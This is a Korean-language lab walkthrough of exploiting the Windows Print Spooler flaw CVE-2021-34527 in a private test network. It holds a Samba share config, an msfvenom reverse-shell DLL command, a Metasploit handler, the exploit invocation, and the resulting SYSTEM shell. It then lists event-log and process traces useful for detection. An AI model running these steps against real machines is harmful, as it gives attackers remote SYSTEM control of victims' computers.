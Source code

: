 # [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type       | OS              | Build     | Core | RAM  | IP            | App          |
| :---       | :---            | :---      | :--- | :--- | :---          | :---         |
| Victim     | Windows 10 1903 | 18362.356 | 2    | 4GB  | 192.168.0.114 |              |
| Attacker   | Kali 2019       |           |      |      | 192.168.0.112 | [exploit.py](https://github.com/2jinu/CVE/blob/main/RCE/%5BWindows%5D%20CVE-2021-34527/file/exploit.py) |

# **Setting**

spooler 서비스 동작 확인

![](images/2022-05-18-21-39-59.png)


# **Exploit**

SMB 서버의 smb.conf(/etc/samba/smb.conf) 설정 수정

```
[global]
map to guest = Bad User
server role = standalone server
usershare allow guests = yes
idmap config * : backend = tdb
smb ports = 445

[smb]
comment = Samba
path = /tmp/
guest ok = yes
writable = yes
read only = no
browseable = yes
force user = nobody
```

reverse tcp 페이로드 생성

```sh
┌──(root💀kali)-[~]
└─# msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=192.168.0.112 LPORT=3333 -o /tmp/evil.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 8704 bytes
Saved as: /tmp/evil.dll
```

SMB 서버 실행

```sh
┌──(root💀kali)-[~/Desktop]
└─# service smbd start                                                   3 ⨯
                                                                             
┌──(root💀kali)-[~/Desktop]
└─# service smbd status
● smbd.service - Samba SMB Daemon
     Loaded: loaded (/lib/systemd/system/smbd.service; disabled; vendor pres>
     Active: active (running) since Thu 2021-07-15 22:20:38 EDT; 1s ago
...
```

metasploit 세션 대기

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/shell_reverse_tcp
PAYLOAD => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.0.112
LHOST => 192.168.10.223
msf6 exploit(multi/handler) > set LPORT 3333
LPORT => 3333
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:3333
```

Exploit Code 실행

    python3 exploit.py "아이디":"비밀번호"@"공격 대상 IP" "아무 문자열" "\\SMB 서버 IP\공유 폴더 명\실행시킬 악성코드"

```sh
┌──(root💀kali)-[~]
└─# python3 CVE-2021-34527.py user:user@192.168.0.114 a '\\192.168.0.112\smb\evil.dll'
[*] Connecting to ncacn_np:192.168.0.114[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_16f13144559407c0\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\192.168.0.112\smb\evil.dll
[*] Try 0...
[*] Stage0: 0
[*] Stage1: 0
[+] Exploit Completed
[*] Stage2: 0
[+] Exploit Completed
[*] Stage3: 0
[+] Exploit Completed
SMB SessionError: STATUS_PIPE_BROKEN(The pipe operation has failed because the other end of the pipe has been closed.)
SMB SessionError: STATUS_PIPE_CLOSING(The specified named pipe is in the closing state.)
...
```

metasploit 세션 확인

```sh
[*] Command shell session 1 opened (192.168.0.112:3333 -> 192.168.0.114:50004) at 2021-07-16 00:32:42 -0400
C:\Windows\system32>whoami
whoami
nt authority\system
```

# **etc**

이벤트뷰어(eventvwr)의 로그 확인

    Windows 로그 > 보안

![](images/2022-05-18-21-48-56.png)

![](images/2022-05-18-21-49-00.png)

![](images/2022-05-18-21-49-04.png)

    Windows 로그 > 응용 프로그램

![](images/2022-05-18-21-49-15.png)

![](images/2022-05-18-21-49-19.png)

    Windows 로그 > 시스템

![](images/2022-05-18-21-49-30.png)

    응용 프로그램 및 서비스 로그 > Microsoft > Windows > SMBClient > Operational

![](images/2022-05-18-21-49-55.png)

process tree 확인

![](images/2022-05-18-21-50-08.png)

prefetch 확인

![](images/2022-05-18-21-50-19.png)

[Reference](https://github.com/cube0x0/CVE-2021-1675)